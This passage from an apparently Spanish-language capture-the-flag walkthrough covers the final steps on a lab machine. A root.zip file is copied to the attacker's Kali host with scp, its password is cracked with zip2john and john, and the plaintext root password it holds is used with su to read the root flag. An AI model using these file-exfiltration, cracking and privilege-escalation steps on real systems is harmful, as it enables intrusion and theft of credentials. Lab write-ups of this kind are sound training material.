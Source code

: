 Ahora desde la maquina victima haremos esto:

```shell
scp root.zip kali@<IP>:/home/kali/Desktop/deeper/
```

Con esto tendremos el archivo en nuestro `host`.

Si intentamos decomprimirlo veremos que esta con contraseña, por lo que vamos a `crackearlo` con `john` de esta forma:

```shell
zip2john root.zip > hash.txt
john --wordlist=<WORDLIST> hash.txt
```

Info:

```
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 6 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
bob              (root.zip/root.txt)     
1g 0:00:00:00 DONE (2025-09-08 06:59) 14.28g/s 351085p/s 351085c/s 351085C/s havana..280789
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

Veremos que lo ha decodificado y la contraseña es `bob`, vamos a descomprimirlo.

```shell
unzip root.zip
```

Metemos como contraseña `bob` y veremos lo siguiente:

```
Archive:  root.zip
[root.zip] root.txt password: 
 extracting: root.txt
```

Si leemos dicho `root.txt` veremos lo siguiente:

```
root:IhateMyPassword
```

Vamos a probar esa contraseña con el usuario `root`.

```shell
su root
```

Metemos como contraseña `IhateMyPassword`...

```
root@deeper:/home/bob# whoami
root
```

Y con esto veremos que seremos `root`, por lo que leeremos la `flag` de `root`.

> root.txt

```
dbc56c8328ee4d00bbdb658a8fc3e895
```
